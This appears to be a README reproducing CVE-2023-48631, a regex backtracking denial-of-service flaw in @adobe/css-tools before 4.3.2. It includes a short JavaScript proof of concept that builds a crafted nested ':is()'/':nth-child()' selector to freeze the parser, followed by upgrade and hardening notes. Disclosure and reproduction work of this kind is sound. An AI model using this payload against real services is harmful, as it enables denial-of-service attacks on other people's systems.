

# CVE-2023-48631 – @adobe/css-tools RegExp Back-tracking → ReDoS

Severity: HIGH (7.5 CVSS v3.1)  
Package: @adobe/css-tools < 4.3.2  
Tested version: 4.2.0

A gigantic single-regex parser in `< 4.3.2` catastrophically back-tracks on selectors mixing `:is()` and nested `:nth-child()`.  
A ~25 KB crafted selector drives CPU to 100 % and blocks the event loop for seconds; larger payloads raise RangeErrors or OOM the process.

## Environment Details
Base image: node:16-alpine    (*old V8 makes the gap clearer*)

Dependencies: @adobe/css-tools@4.2.0, express

PoC benchmark (excerpt):

```js
const { parse } = require('@adobe/css-tools');
const evil = ':is(:nth-child(1 of '.repeat(2500) + 'a' +
            '))'.repeat(2500) + '{color:red}';

const t0 = Date.now();
parse(evil);                       // blocks ~5 s on v4.2.0
console.log('Δ', Date.now()-t0,'ms');
```

## Exploit Steps

Run ```bench.sh``` to launch the attack and the time measurement. ```OOM``` means out of memory. 
```bash
./bench/sh
```
## Result Screenshot


## Mitigation Notes
Upgrade to css-tools ≥ 4.3.2 (patched) or latest 4.4.x.
If stuck on old version:

Reject CSS > 50 KB or > 5 000 nested functions.

Parse inside a worker thread with 200 ms timeout.

Apply cgroup CPU quotas so one request can’t starve the host.


